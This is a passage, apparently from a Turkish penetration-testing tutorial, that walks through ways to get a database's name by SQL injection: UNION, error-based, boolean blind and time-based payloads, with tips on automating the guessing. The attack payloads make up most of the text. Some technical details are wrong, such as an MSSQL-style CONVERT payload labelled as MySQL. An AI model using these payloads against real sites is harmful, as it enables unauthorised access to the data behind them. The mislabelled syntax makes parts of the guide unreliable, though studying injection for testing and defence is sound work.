 ✅ Hata verdiği yerde sütun sayısını bulmuş olursun.
Daha sonra:
sql
```sql
' UNION SELECT NULL, database(), NULL-- -
```
✅ Veritabanı adını ikinci sütunda görüntüleyebilirsin.

3️⃣ Error-Based SQL Injection ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını döndürüyorsa, hata tabanlı SQL Injection yöntemini kullanabilirsin.
MySQL için:
sql
```plaintext
' AND 1=CONVERT(int, (SELECT database()))-- -
```

💡 Eğer sistem MySQL kullanıyorsa, bu sorgu bir hata döndürerek veritabanı adını gösterebilir.
MSSQL için:
sql
```plaintext
' AND 1=(SELECT DB_NAME())-- -
```
💡 MSSQL veritabanı adı döndürmeye çalışacaktır.

4️⃣ Boolean-Based (Kör SQL Injection) ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını göstermiyor ama yanıt süreleri veya sonuçlar değişiyorsa, boolean tabanlı SQL Injection kullanılabilir.
Adım 1: Veritabanı adı tahmin etme
sql
```plaintext
' AND (SELECT database())='test_db'-- -
```
✅ Eğer sayfa aynı şekilde yükleniyorsa, veritabanı adı test_db olabilir.
✅ Eğer hata veriyorsa veya değişiklik oluyorsa, yanlış tahmin etmiş olabilirsin.
Adım 2: Karakter karakter doğrulama
Eğer veritabanı adını bilmiyorsan ve sistem tek karakterlik karşılaştırmalar yapıyorsa:
sql
```plaintext
' AND substring(database(),1,1)='t'-- -
```

✅ Eğer sayfa doğru yükleniyorsa, ilk harf t olabilir.
Bunu karakter karakter deneyerek devam edebilirsin:
sql
```plaintext
' AND substring(database(),2,1)='e'-- -
```

📌 Bu yöntemi otomatikleştirmek için Burp Suite Intruder veya bir Python scripti yazabilirsin.

5️⃣ Time-Based SQL Injection ile Veritabanı İsmini Öğrenme
Bazı durumlarda hiçbir hata mesajı veya yanıt farkı olmuyorsa, time-based SQL Injection kullanabilirsin.
MySQL için:
sql
```plaintext
' AND IF(database()='test_db', SLEEP(5), 0)-- -
```
